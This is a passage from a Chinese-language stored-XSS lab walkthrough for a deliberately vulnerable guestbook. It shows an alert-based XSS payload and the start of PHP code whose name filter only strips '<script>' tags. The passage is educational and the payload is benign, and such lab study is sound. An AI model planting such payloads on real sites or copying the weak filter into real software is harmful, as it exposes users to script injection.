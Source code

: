 ![1556781420565](assets/1556781420565.png)

```html
<!-- 利用post方法修改name最大长度限制然后构造-->
<img src=# onerror=alert(/xss/)>
```

![1556782874844](assets/1556782874844.png)

因为XSS payload存储在服务器中，只要有人打开了留言板就会自动执行XSS payload

#### 3.1.2 中安全级别

```php
 <?php

if(isset($_POST['btnSign']))
{

   $message = trim($_POST['mtxMessage']);
   $name    = trim($_POST['txtName']);
   
   // Sanitize message input
   $message = trim(strip_tags(addslashes($message)));
   $message = mysql_real_escape_string($message);
   $message = htmlspecialchars($message);
    
   // Sanitize name input
   $name = str_replace('<script>', '', $name);
```